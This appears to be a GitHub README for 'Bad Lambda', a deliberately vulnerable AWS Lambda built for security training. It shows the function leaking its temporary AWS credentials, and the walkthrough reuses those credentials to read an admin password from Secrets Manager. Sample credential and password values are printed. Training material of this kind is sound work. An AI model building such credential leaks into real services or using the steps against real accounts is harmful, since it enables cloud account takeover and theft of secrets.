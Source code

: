# Bad Lambda

Lambda function with API gateway and admin password in Secrets Manager
* Returns environment variables of container executing Lambda
* Includes AWS security token details which can be used to assume Lambda role
* The credentials can then be used to retrieve the admin password from Secrets Manager

# WARNING
* Designed for security training purposes
* Do not use on a production account
* Do not deploy to an account with AWS Secrets Manager enabled
* Could lead to AWS account takeover with excessive Lambda role policy permissions

## DEV environment

to deploy:

* use Terraform v11.7 to deploy:

```
terraform init
terraform workspace new dev
terraform plan
terraform apply
```

## USAGE

Browse to the API Gateway endpoint of the bad-lambda-dev function, provided as a Terraform output, e.g.:
https://r2pjhsdqp2.execute-api.eu-west-1.amazonaws.com/dev/

The environment variables of the Lambda function will be returned:
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQoGZXIvYXdzEJv//////////wEaDGfc5KqNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fCgbC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/OBIr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeL8X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/bad-lambda-dev
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/10/20/[$LATEST]214ec27edfb64248ac59a9865c03db62
AWS_EXECUTION_ENV=AWS_Lambda_python3.6
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_LAMBDA_FUNCTION_NAME=bad-lambda-dev
PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin
AWS_DEFAULT_REGION=eu-west-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xohK8M33/0mDQhW5wWHcNY7QShLsvbjIhhEXrUb+
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=eu-west-1
TZ=:UTC
AWS_ACCESS_KEY_ID=ASIA2L5BHF3A7UTREF4P
SHLVL=1
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
PYTHONPATH=/var/runtime
_X_AMZN_TRACE_ID=Root=1-5bcb0793-fbe56bdc6615401414db1a74;Parent=234bca345951c93f;Sampled=0
AWS_SECURITY_TOKEN=FQoGZXIvYXdzEJv//////////wEaDGfc5TyNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fHyuyC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/YTWr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeR9X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
_HANDLER=printenv.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=128
_=/usr/bin/printenv
```

create a new profile in your ~/.aws/credentials file, using those values:
```
[badlambda]
aws_access_key_id = ASIA2L5BHF3A7UTREF4P
aws_secret_access_key = xohK8M33/0mDQhW5wWHcNY7QWFilxLSjIhhEXrUb+
aws_session_token = FQoGZXIvYXdzEJv//////////wEaDGfc5TyNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fHyuyC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/YTWr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeR9X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
```
then use a recent version of the AWS command line interface:
```
$ aws secretsmanager list-secrets --profile badlambda
```
A list of secrets in the eu-west-1 region will be returned:
```
{
    "SecretList": [
        {
            "LastAccessedDate": 1539993600.0, 
            "SecretVersionsToStages": {
                "87AF04AE-B24B-4966-85B1-95C83B7D8717": [
                    "AWSCURRENT"
                ]
            }, 
            "Name": "admin-password-dev", 
            "ARN": "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR", 
            "LastChangedDate": 1540027226.453
        }
    ]
}
```
Copy the secret ARN and paste into the command as below:
```
aws secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR" --profile badlambda
```
You will retrieve the secret value of the admin password:
```
{
    "Name": "admin-password-dev", 
    "VersionId": "87AF04AE-B24B-4966-85B1-95C83B7D8717", 
    "SecretString": "cDS41esC&Y7Dudwt4Uvrwo-�w", 
    "VersionStages": [
        "AWSCURRENT"
    ], 
    "CreatedDate": 1540027226.179, 
    "ARN": "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR"
}
```
